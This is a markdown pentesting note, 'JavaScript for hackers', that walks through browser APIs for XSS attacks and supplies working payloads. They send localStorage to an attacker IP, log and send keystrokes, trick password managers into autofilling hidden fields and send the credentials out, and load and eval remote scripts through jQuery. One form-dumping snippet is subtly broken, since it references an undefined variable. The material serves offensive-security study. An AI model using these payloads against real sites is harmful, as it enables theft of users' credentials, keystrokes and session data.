 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```


## Useful JavaScript APIs

Notes on some useful JavaScript APIs to interact with the browser maliciously.

### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)

Represents the window the entire document (the HTML response from the server) lives. This gives us
access to the URL via the _location_ property and _localStorage_ which may contain secrets.

Treat Window as global, any properties set here or any methods we have access can be used in the
global context, like `alert()`. `alert()`is one of the primary methods we can use to prove that a
[[cross-site-scripting|XSS vulnerability]] exists in an application.

#### Exposing storage

Browsers cache important secrets in the `Window` namespace of a user's browsing session. With XSS,
we can exfiltrate this data by targeting the
[`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) and
[`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) objects
in the `Window` namespace:

```javascript
fetch("http://ATTACKER_IP_ADDRESS/exfil?data=" + encodeURIComponent(JSON.stringify(localStorage)))
```

### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)

A powerful API that allows us to interact with the document object model (DOM) of the web page we're
attacking. The DOM provides us with access to all text inputs, usernames, passwords, cookies, etc.
as well as all keypress events.

#### Dumping all input forms

A useful method in the `Document` namespace is
[`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName).
For example, let's dump the contents of all forms in the document that are tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input")

for (let inputForm of inputForms) {
  console.log(input.value)
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is actually provided
[here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes

Another fun technique to disclose information from a victim using the `Document` namespace is key
logging. Whenever a
[`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event) event occurs, we
can execute some JavaScript to retrieve the keys pressed by the victim:

```javascript
function keyLog(event) {
  console.log(event.key)
}

document.addEventListener("keydown", keyLog)
```

More information about the `addEventListener()` API can be found
[here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to the console, not super
useful for an attacker unless I can somehow view the victim's console! Instead, we need to
exfiltrate this data.

Using the [`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API, we
can coerce the victim into making a web request to a server we own. The result of the `fetch` action
doesn't matter either because `fetch` just returns a
[`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise).
This means we can avoid crashing our script when the `fetch` action fails. Now, when we log a
keystroke from the user, we can append the keystroke to a web request targeted at a server we host,
allowing us to see the victim's keystrokes:

```javascript
function keyLog(event) {
  fetch("http://<WEB_SERVER_IP_ADDRESS>/k?key=" + event.key)
}

document.addEventListener("keydown", keyLog)
```

#### Dumping credentials from password managers

Password managers are great; you should definitely be using one! But this particular script attacks
password managers into autofilling HTML DOM `input` objects that look like username and password
prompts.

Using this XSS payload, we modify the document, adding input forms for a username and a password,
hide them with an opacity of 0, and exfiltrate the username and password values after waiting 5
seconds for the password manager to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input")
u.type = "text"
u.style.position = "fixed"
u.style.opacity = "0"
var p = document.createElement("input")
p.type = "password"
p.style.position = "fixed"
p.style.opacity = "0"
body.append(u)
body.append(p)
setTimeout(function () {
  fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)
}, 5000)
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)

#### Using jQuery to load remote scripts

Probably not super useful is Cross-Origin protections are an issue, however, if a server provides
clients (browsers) with jQuery as a resource, we can use the
[`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a script from an arbitrary
location, either locally or with a remote URI, and execute a callback function when the script is
loaded successfully. Here's an example:

```javascript
jQuery.getScript(
  "http://ATTACKER_IP_ADDRESS/dump-password.js",
  function (script, textStatus, jqXHR) {
    eval(script)
  },
)
```

We can use great functions like
[`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob),
[`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and
[`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) to
bypass any encoding issues upon delivery. It's likely you'll need to convert the result of the
`getScript()` operation to ASCII using `btoa()` to avoid runtime exceptions. The code you're
injecting into probably won't handle the return value of `getScript()` well - it returns a callback
object.

